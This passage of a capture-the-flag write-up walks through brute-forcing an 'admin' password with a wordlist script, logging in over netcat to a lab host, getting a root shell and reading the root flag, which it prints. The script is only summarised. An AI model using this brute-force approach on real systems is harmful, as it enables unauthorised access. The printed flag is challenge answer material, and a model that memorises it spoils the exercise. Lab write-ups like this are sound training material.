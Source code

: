 
### 2. **Brute Forcing Passwords**

A custom Python script was created to fuzz passwords for the user `admin`, using a small wordlist (`rockyou-75.txt`)

**Script Summary:**

- Sends `admin` as username.
- Iterates through wordlist sending each password.
- Detects a successful login by change in response content.

```bash
python3 script.py
```

Output indicating success:
```
Password: abc123
  Prompt: Password:
  Response: Welcome Admin!!! Type "shell" to begin
[+] Potential success with password: abc123
```

---

### 3. **Manual Login**

With the discovered credentials:

```bash
nc 10.10.102.10 8000
```

```
Username: admin
Password: abc123
Welcome Admin!!! Type "shell" to begin
```

Typing `shell` drops into a shell:
```bash
# whoami
root
```

---

### 4. **Flag Retrieval**

Listing files:
```bash
ls
pyrat.py  root.txt  snap
```

Reading the flag:
```bash
cat root.txt
ba5ed03e9e74bb98054438480165e221
```

---